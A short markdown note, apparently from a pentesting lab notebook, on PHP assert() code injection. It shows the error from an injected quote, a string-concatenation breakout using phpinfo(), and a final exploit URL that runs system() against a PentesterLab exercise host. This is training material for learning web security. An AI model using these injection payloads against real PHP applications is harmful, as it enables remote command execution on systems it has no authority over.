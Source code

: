```yaml
---
tags: php
---
```



```ad-attention
This is most likely not gonna work with applications running PHP 7+
```

When assert is used incorrectly, it will evaluate a value given.

Let’s try injecting a quote:
```error
# **Parse error**: syntax error, unexpected '';' (T_ENCAPSED_AND_WHITESPACE) in **/var/www/index.php(15) : assert code** on line **1**  
  
**Catchable fatal error**: assert(): Failure evaluating code: 'hacker'' in **/var/www/index.php** on line **15**
```

We get an error.
To make it go away we have to input something like: `hacker'.'`

We will have to concentrate two strings together like so:
`hacker'.phpinfo().'`

So our final exploit for the pentesterlabs exercise would be:
```url
http://ptl-3519b02c1362-5079bc138e09.libcurl.me/?name=hacker%27.system(%22%2Fusr%2Flocal%2Fbin%2Fscore%20e6206710-c2c4-4704-869e-888e9947486e%22).%27
```
